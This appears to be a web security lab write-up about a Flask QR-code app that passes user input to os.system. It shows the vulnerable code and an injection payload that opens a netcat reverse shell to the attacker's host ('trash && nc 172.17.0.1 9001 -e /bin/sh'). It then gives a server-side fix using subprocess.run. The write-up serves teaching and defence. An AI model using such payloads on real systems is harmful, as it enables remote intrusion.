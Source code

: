 # Lab 4: Web Security (2)

## Running the application

- Run the following commands inside project directory `qrcode_app`

  ```bash
  docker-compose build
  docker-compose up
  ```

- Navigate to http://127.0.0.1:8080/ in the browser.

![image-20220413013234248](../images/image-20220413013234248.png)

## Security analysis

- Let's take a look at the implementation, particularly the function `generate_qr()` in `app.py`

```python
@app.route("/generate_qr", methods=["POST"])
def generate_qr():
    data = request.form['data']
    file_hash = hashlib.md5(data.encode('utf-8')).hexdigest()
    os.system(f"qrencode -o /tmp/{file_hash}.png {data}")
    with open(f"/tmp/{file_hash}.png", "rb") as f:
        db_handler.insert_blob(file_hash=file_hash, file=f.read())
    return render_template('index.html', img_path=f"/get_qr/{file_hash}")
```

- `data` taken from the user `request` is unsanitized before being passed to `system()` call, allowing **Remote Code Execution**

  > Remote (Arbitrary) Code Execution is an attacker's ability to run any commands or code of the attacker's choice on a target machine or in a target process.



## Exploitation

We can run a server on the attacker machine and listen to some port (e.g., 9001) using

```bash
nc -lvnp 9001
```

Then submit the following payload into the text input to open a reverse shell on the server.

```bash
trash && nc 172.17.0.1 9001 -e /bin/sh
```

> - 172.17.0.1 is the attacker address, in our case, it's the default bridge `docker0` that connects docker containers to the host machine on which we are running the listener.
> - The command submits trash to the application but it also establishes a connection with the listening attacker server at port 9001, and runs `/bin/sh`.



Target hacked successfully :sunglasses:

![image-20220413111448473](../images/image-20220413111448473.png)



## Mitigation

- Let's say someone reported the vulnerability and the smart engineer decided to fix it by placing extra JS lines that forbid special characters like `&` and so on.

- **Why this is a bad solution:**
  
  - Security checks shouldn't be done in client-side JS as the attacker still has control over it.
  - Attacker can still open a request interceptor (e.g., burp suite) and modify the POST request to include the payload, bypassing these checks.
  - The fix introduce a restriction on the user text, a normal user might still want special characters in their encoded QR Code.
  
- **Better solutions?**
  - Implement sanitization/checks on the server side (python code).
  
  - Use an existing and tested library (e.g., [python-qrcode](https://github.com/lincolnloop/python-qrcode)) instead of using `system()`
  
  - Use the lightweight `subprocess.run()` instead of `os.system()`
    - `subprocess.run()` will not spawn a new shell (just a process), so it won't run any extra unexpected commands or processes or environment variables initializations.
    - We can also use `qrencode -r FILENAME` to read data from file instead of appending it to the command.
    
    ```python
    from subprocess import run
    
    @app.route("/generate_qr", methods=["POST"])
    def generate_qr():
        data = request.form['data']
        file_hash = hashlib.md5(data.encode('utf-8')).hexdigest()
        with open(f"/tmp/{file_hash}.txt", "w") as f:
            f.write(data)
        run(["qrencode", "-o", f"/tmp/{file_hash}.png", "-r", f"/tmp/{file_hash}.txt"])
        with open(f"/tmp/{file_hash}.png", "rb") as f:
            db_handler.insert_blob(file_hash=file_hash, file=f.read())
        return render_template('index.html', img_path=f"/get_qr/{file_hash}")
    ```
    
    

## Repo with the fix applied

- https://github.com/Sh3B0/qrcode_app





